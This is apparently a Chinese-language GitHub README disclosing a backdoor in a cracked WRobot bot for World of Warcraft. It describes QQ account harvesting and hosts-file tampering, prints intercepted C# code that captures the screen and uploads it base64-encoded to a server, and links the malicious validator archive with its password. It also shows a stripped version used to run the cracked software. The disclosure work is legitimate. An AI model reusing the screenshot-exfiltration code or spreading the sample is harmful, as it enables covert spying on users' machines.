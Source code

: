 # Wrobot 后门

前不久获得一份WRobot的破解版程序，该程序用于魔兽世界脚本Bot。在测试环境中发现一些不寻常的地方，多次与破解程序发布者联系无果后我将所掌握的内容发布在此。

通过搜索引擎发现此破解程序的作者多年来在很多与魔兽世界相关的 中/英 论坛上发布过此破解程序的推广信息。

<details>
<summary><code><strong>「 点击查看」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/1.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/2.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/3.PNG?raw=true" width=30%  />
</details>

<details>
<summary><code><strong>「 点击查看下载地址」</strong></code></summary>

破解版WRobot验证端  解压密码：1234567890 
**[Download](https://github.com/elseif2023/Wrobot/blob/main/document/%E7%A0%B4%E8%A7%A3%E7%89%88WRobot%E9%AA%8C%E8%AF%81%E7%AB%AF.rar)**

查毒检测报告：https://www.virustotal.com/gui/file/7f5703e57194fded6e5588ad54be0b5896009e51c41c6eeaca738a8f77bcb2e7

</details>


当使用者使用 破解版WRobot验证端.exe 时会触发下列动作

1. 取使用者的QQ和QQ群，如果未启动QQ会提示具有误导性的错误提示。当使用者关闭 破解版WRobot验证端.exe 然后登录QQ并再次启动 破解版WRobot验证端.exe 点击登录会获取使用者的QQ和QQ群，如果使用者在该程序发布者的QQ群内那么登录成功。否则则提示之前的误导性错误提示。

2. 改并添加下列内容到计算机上的hosts文件内，将使用者解析目标网站上

* #==== 下面两行是破解版WR转向服务器IP ====
* 43.252.229.37 tumadre.000webhostapp.com 
* 127.0.0.1 download.wrobot.eu

通过访问 43.252.229.37 发现此IP地址属于破解程序发布者的广告网站，同时注册了名为 wrobot_free.kissdjmax.com 的域名 

<details>
<summary><code><strong>「 点击查看网站截图」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/4.PNG?raw=true" width=100%  />
</details>

成功登录到 破解版WRobot验证端 后，启动魔兽世界并进入游戏在启动由破解程序发布者提供的 WRobotWOTLK/WRobot.exe 进行激活 在使用过程中通过截取数据获得了下列内容

<details>
<summary><code><strong>「 点击查看截取信息」</strong></code></summary>

```C#
public class Main {
  public void Initialize() {
    try {
      var exeString = System.IO.File.ReadAllText(System.Windows.Forms.Application.StartupPath + @"\" + System.Diagnostics.Process.GetCurrentProcess().ProcessName + ".exe ");
     robotManager.Helpful.Var.SetVar("IsSafeToUse", true);
     robotManager.Helpful.Var.SetVar("SessionKey", "231983688180");
    }
    catch (System.Exception es) {}

string fullScreenShotPath = System.IO.Path.GetTempPath() + System.Environment.MachineName;

System.Drawing.Bitmap screenshot = new System.Drawing.Bitmap(System.Windows.Forms.SystemInformation.VirtualScreen.Width,
 System.Windows.Forms.SystemInformation.VirtualScreen.Height,
 System.Drawing.Imaging.PixelFormat.Format32bppArgb);
System.Drawing.Graphics screenGraph = System.Drawing.Graphics.FromImage(screenshot);
screenGraph.CopyFromScreen(System.Windows.Forms.SystemInformation.VirtualScreen.X,
 System.Windows.Forms.SystemInformation.VirtualScreen.Y,
 0,
 0,
 System.Windows.Forms.SystemInformation.VirtualScreen.Size,
 System.Drawing.CopyPixelOperation.SourceCopy);

screenshot.Save(fullScreenShotPath + ".jpg", System.Drawing.Imaging.ImageFormat.Jpeg);

System.Drawing.Image myImage = GetImage(fullScreenShotPath + ".jpg");

string base64Image = ImageToBase64(myImage, System.Drawing.Imaging.ImageFormat.Jpeg);
string fileName = System.Environment.MachineName;

using(System.Net.WebClient client = new System.Net.WebClient()) {
 byte[] response = client.UploadValues("http://127.0.0.1/upload/validate.php", new System.Collections.Specialized.NameValueCollection() {
  {
   "myImageData",
   base64Image
  }, {
   "fileName",
   fileName
  }
 });
}

if (System.IO.File.Exists(@fullScreenShotPath + ".jpg"))
                {
                    System.IO.File.Delete(@fullScreenShotPath + ".jpg");
                }
    }

        System.Drawing.Image GetImage(string filePath) {
         System.Net.WebClient l_WebClient = new System.Net.WebClient();
         byte[] l_imageBytes = l_WebClient.DownloadData(filePath);
         System.IO.MemoryStream l_stream = new System.IO.MemoryStream(l_imageBytes);
         return System.Drawing.Image.FromStream(l_stream);
        }

        string ImageToBase64(System.Drawing.Image image, System.Drawing.Imaging.ImageFormat format) {
         using(System.IO.MemoryStream ms = new System.IO.MemoryStream()) {
          // Convert Image to byte[]
          image.Save(ms, format);
          byte[] imageBytes = ms.ToArray();

          // Convert byte[] to Base64 String
          string base64String = System.Convert.ToBase64String(imageBytes);
          return base64String;
         }

        }
}
```
</details>

# 修改

修改截取的内容后获得下面的代码，并将解析地址由 43.252.229.37 tumadre.000webhostapp.com 改为 127.0.0.1 tumadre.000webhostapp.com 在本地部署代码后 WRobot.exe 程序激活成功，并且功能正常。

<details>
<summary><code><strong>「 点击查看修改后的代码」</strong></code></summary>

```C#
public class Main {
  public void Initialize() {
    try {
      var exeString = System.IO.File.ReadAllText(System.Windows.Forms.Application.StartupPath + @"\" + System.Diagnostics.Process.GetCurrentProcess().ProcessName + ".exe ");
     robotManager.Helpful.Var.SetVar("IsSafeToUse", true);
     robotManager.Helpful.Var.SetVar("SessionKey", "231983688180");
    }
    catch (System.Exception es) {}
    }
}
```
</details>

# 分析
研究过后发现 WRobotWOTLK\Bin\wManager.dll 应该被破解程序发布者做过手脚，在不本地部署代码只删除掉 wManager.dll 内几处代码后正常启动。

# 个人推测
此破解程序由于是用于魔兽世界的私人服务器，私人服务器提供的登陆器大多数会被杀毒软件提示病毒而让游戏者关闭杀毒，故破解程序发布者很可能是通过设置多个障碍来在一个小范围内寻找合适的猎物并以此获利。

应该是出于获利的目的 43.252.229.37 这个用于验证的IP并不是时刻都能使用(根本不需要，即便需要也不存在所谓流量过大)，从而诱导使用者付费。

一旦 43.252.229.37 此验证IP无法验证，那么也无法截取到任何有效内容。
